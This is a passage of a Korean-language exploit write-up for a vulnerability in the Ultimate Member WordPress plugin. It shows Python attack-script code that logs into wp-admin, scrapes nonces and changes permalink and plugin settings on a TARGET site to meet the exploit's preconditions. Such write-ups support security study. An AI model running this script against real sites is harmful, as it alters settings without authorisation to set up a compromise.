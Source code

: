 ```python
        print("[bold red][-] Login Failed.")
        sys.exit(0)
```

**3.3 설정 변경**

해당 취약점은 사용자 정의 테이블 옵션이 활성화 되어 있어야 하고 워드프레스 고유주소가 `/%postname%/` 로 변경되어 있어야 한다.

```python
def update_settings(session):
    """Update WordPress permalink and plugin settings."""
    # Update permalink settings
    permalink_response = session.get(f"{TARGET}/wp-admin/options-permalink.php", proxies=proxies)
    wp_nonce = re.search(r'name="_wpnonce" value="([^"]+)"', permalink_response.text).group(1)

    wp_data = {
        "_wpnonce": wp_nonce,
        "_wp_http_referer": "/wp-admin/options-permalink.php",
        "selection": "/%postname%/",
        "permalink_structure": "/%postname%/",
        "submit": "변경사항 저장",
    }

    post_permalink_response = session.post(f"{TARGET}/wp-admin/options-permalink.php", data=wp_data, proxies=proxies)
    if post_permalink_response.status_code == 200:
        print("[bold green][+] Permalink updated successfully.")
    else:
        print("[bold red][-] Failed to update permalink settings.")
        sys.exit(0)

    # Update Ultimate Member settings
    misc_response = session.get(f"{TARGET}/wp-admin/admin.php?page=um_options&tab=misc", proxies=proxies)
    um_nonce = re.search(r'name="__umnonce" value="([^"]+)"', misc_response.text).group(1)

    um_data = {
        "um-settings-action": "save",
        "um_options[form_asterisk]": "0",
        "um_options[enable_blocks]": "0",
        "um_options[member_directory_own_table]": "1",
        "submit": "변경 사항 저장",
        "__umnonce": um_nonce,
    }

    post_misc_response = session.post(f"{TARGET}/wp-admin/admin.php?page=um_options&tab=misc", data=um_data, proxies=proxies)
    if post_misc_response.status_code == 200:
        print("[bold green][+] Settings updated successfully.")
    else:
        print("[bold red][-] Failed to update settings.")
        sys.exit(0)
```
